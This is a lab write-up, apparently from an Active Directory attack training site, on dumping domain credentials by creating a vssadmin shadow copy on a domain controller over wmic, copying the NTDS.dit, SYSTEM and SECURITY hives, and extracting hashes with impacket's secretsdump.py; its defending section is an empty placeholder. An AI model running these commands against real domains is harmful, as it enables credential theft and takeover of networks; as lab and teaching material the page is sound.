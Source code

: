 # Vssadmin Shadow Copy

## Configuring

No need to configure anything.

## Attacking

### How it works

With Domain Admin credentials it is possible to copy the NTDS.dit, SYSTEM and SECURITY hives remotely from the Domain Controller.

### Tools

* [Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

### Executing the attack

The attack requires Domain Admin credentials and is a post exploitation attack to extract credentials.

1. Login to `WS01` as a normal user. For example `Richard` and the password `Sample123`.
2. Open PowerShell and Execute the following command to create a shadowcopy of the C: disk with the vssadmin utility.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

![](<../../../.gitbook/assets/image (15).png>)

3\. Now we can copy the NTDS.dit, SYSTEM and SECURITY hives to the `C:\temp` directory.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

![](<../../../.gitbook/assets/image (3) (2).png>)

{% hint style="info" %}
Make sure the C:\temp directory exists on the DC before executing this command!
{% endhint %}

4\. The next step is to mount the `C:\temp` directory and access the files:

```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\dc02\c$\temp -PSProvider FileSystem
cd \\dc02\c$\temp
```

![](<../../../.gitbook/assets/image (12) (1).png>)

![](<../../../.gitbook/assets/image (9).png>)

5\. Copy the files to your Kali and execute the following command to extract the credentials.

```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

![](<../../../.gitbook/assets/image (11).png>)

![](<../../../.gitbook/assets/image (14).png>)



## Defending

### Recommendations

* a

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin" %}
